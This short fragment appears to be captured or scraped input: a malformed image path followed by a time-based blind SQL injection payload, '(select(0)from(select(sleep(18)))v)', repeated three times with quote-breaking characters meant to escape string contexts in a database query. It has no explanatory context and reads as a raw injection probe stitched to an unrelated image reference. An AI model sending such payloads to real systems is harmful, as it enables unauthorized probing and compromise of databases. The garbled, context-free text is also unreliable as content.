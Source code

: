 (select(0)from(select(sleep(18)))v) *' (select(0)from(select(sleep(18)))v) '" (select(0)from(select(sleep(18)))v) "* 